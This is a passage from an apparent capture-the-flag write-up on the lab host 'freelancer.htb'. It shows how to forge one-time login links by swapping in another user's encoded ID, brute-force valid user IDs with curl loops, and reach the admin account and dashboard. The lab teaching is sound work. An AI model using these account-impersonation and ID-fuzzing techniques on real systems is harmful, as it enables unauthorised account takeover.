This gets the image URL for my account, decodes it, gets the URL, and replaces with `sed` my ID with the ID for the user I want to impersonate.

Trying user id 10000 returns invalid:

```

oxdf@hacky$ ./getlink.sh uixwzlzp885e24ufsex32y88cs2v3oou 10000
http://freelancer.htb/accounts/login/otp/MTAwMDAK/501eb3087fb7c7a3c9667728aa10f2c6/
oxdf@hacky$ curl $(./getlink.sh uixwzlzp885e24ufsex32y88cs2v3oou 10000)
Invalid user primary key!

```

Same with 10001 and 10002. I need to fuzz here. A quick `bash` loops seems safest:

```

oxdf@hacky$ for i in $(seq 10000 10100); do curl -I $(./getlink.sh uixwzlzp885e24ufsex32y88cs2v3oou ${i}) -s | grep -q "sessionid" && echo "Found valid user: $i"; done
Found valid user: 10010
Found valid user: 10011

```

It only finds my two accounts. I’ll try looking at low IDs starting with 0:

```

oxdf@hacky$ for i in $(seq 0 100); do curl -I $(./getlink.sh uixwzlzp885e24ufsex32y88cs2v3oou ${i}) -s | grep -q "sessionid" && echo "Found valid user: $i"; done  
Found valid user: 2                                               
Found valid user: 3                                               
Found valid user: 4
Found valid user: 5
Found valid user: 6
Found valid user: 7
Found valid user: 8
Found valid user: 9
Found valid user: 10
Found valid user: 11
Found valid user: 12
Found valid user: 13
Found valid user: 14

```

There’s a bunch more users!

#### Identify Admin User

The user with id 2 has the username “admin”:

![image-20240607145012104](/img/image-20240607145012104.png)

While logged in as admin, visiting `/admin` returns the admin dashboard:
